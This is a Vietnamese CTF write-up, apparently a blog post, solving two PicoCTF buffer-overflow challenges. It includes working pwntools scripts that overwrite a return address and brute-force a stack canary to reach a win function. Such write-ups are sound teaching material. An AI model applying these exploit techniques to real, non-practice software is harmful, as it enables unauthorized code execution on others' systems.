








+++
title = "PicoCTF: Buffer Overflow Vulnerability Solution"
date = 2023-09-15
description = "Giải chi tiết các bài tập Buffer Overflow trên PicoCTF, từ cơ bản (kiểm soát địa chỉ trả về) đến nâng cao (brute-force Stack Canary)."
[taxonomies]
tags = ["ctf", "picoctf", "pwn", "buffer-overflow", "stack", "canary", "brute-force"]
[extra]
toc = true
+++

## Challenge: Buffer Overflow 1

Mục tiêu: Kiểm soát địa chỉ trả về.  
Link: [PicoCTF Practice - 258](https://play.picoctf.org/practice/challenge/258)

### Phân tích bài toán

Kiểm tra kiểu của tệp nhị phân:

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, ... not stripped
```

Đây là file 32-bit, Little Endian. Hãy chạy thử và nhập một chuỗi dài:

```bash
$ ./vuln
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Okay, time to return... Fingers Crossed... Jumping to 0x61616161
[1]    35323 segmentation fault (core dumped)  ./vuln
```

Chương trình báo lỗi Segfault và in ra địa chỉ nhảy tới là `0x61616161` ("aaaa"). Điều này chứng tỏ chúng ta có thể ghi đè Return Address.

<!-- more -->

Kiểm tra bảo mật:

```bash
pwndbg> checksec
    Arch:     i386
    Stack:      No canary found
    PIE:        No PIE
    Stack:      Executable (RWX)
```

Không có Canary và PIE, việc kiểm soát địa chỉ trả về rất đơn giản. Mục tiêu là hàm `win` (in ra flag).

### Debug và Khai thác

Sử dụng chuỗi tuần hoàn (cyclic) để tìm offset:

```bash
pwndbg> cyclic 100
...
pwndbg> c
Please enter your string: [nhập chuỗi cyclic]
```



Cấu trúc stack sau khi gọi `gets`:





Địa chỉ trả về bị ghi đè bởi `0x6161616c` ("laaa"). Tìm offset:

```bash
pwndbg> cyclic -l laaa
Found at offset 44
```

Tìm địa chỉ hàm `win`:

```bash
pwndbg> p win
$1 = {<text variable, ...>} 0x080491f6
```

**Exploit Script**:

```python
from pwn import *
payload = flat([
    b"a"*44,
    0x080491f6 # Địa chỉ của hàm win
])
exploit = remote("saturn.picoctf.net", [PORT])
exploit.sendlineafter(": ", payload)
exploit.interactive()
```



---

## Bổ sung: Bypass Canary (PicoCTF Buffer Overflow 3)

Canary là cơ chế bảo vệ stack. Khi Buffer Overflow xảy ra, Canary bị thay đổi khiến chương trình phát hiện và thoát ngay lập tức trước khi Return Address được sử dụng.

### Challenge
Mục tiêu: Vượt qua Stack Canary để gọi hàm `win`.  
Link: [PicoCTF Practice - 260](https://play.picoctf.org/practice/challenge/260)

### Phân tích và Brute-force

Trong bài này, Canary được đọc từ file `canary.txt` (4 byte). Vì Canary không thay đổi giữa các lần chạy (trong cùng một phiên instance), chúng ta có thể brute-force từng byte một.

Sơ đồ stack:
```text
| buffer[64] | canary[4] | saved ebp (4 bytes) | địa chỉ trả về (4 bytes) |
```

Chúng ta thử từng byte (0-255) cho byte đầu tiên của Canary. Nếu đúng, chương trình in ra "Ok...", nếu sai, in ra "Stack Smashing Detected". Sau khi tìm được byte 1, ta tìm byte 2, và cứ thế.





Khi Canary đúng, chúng ta tìm offset đến Return Address:




**Script Brute-force & Exploit**:

```python
from pwn import *

canary = b""
CANARY_SIZE = 4

# Brute force canary byte by byte
for i in range(CANARY_SIZE):
    for j in range(256):
        exploit = process("./vuln") # Hoặc remote
        payload = flat([
            b"a"*64,
            canary,
            chr(j).encode()
        ])
        exploit.sendlineafter(b"> ", str(len(payload)).encode())
        exploit.sendlineafter(b"Input> ", payload)
        response = exploit.recv()
        if b"Ok" in response:
            canary += chr(j).encode()
            exploit.close()
            break
        exploit.close()

print(f"Found canary: {canary}")

# Craft final payload
# Offset 84 - 64 (buffer) - 4 (canary) = 16 byte padding
payload = flat([
    b"a"*64,
    canary,
    b"a"*16,
    0x8049336 # địa chỉ hàm win
])

exploit = process("./vuln")
exploit.sendlineafter(b"> ", str(len(payload)).encode())
exploit.sendlineafter(b"Input> ", payload)
exploit.interactive()
```
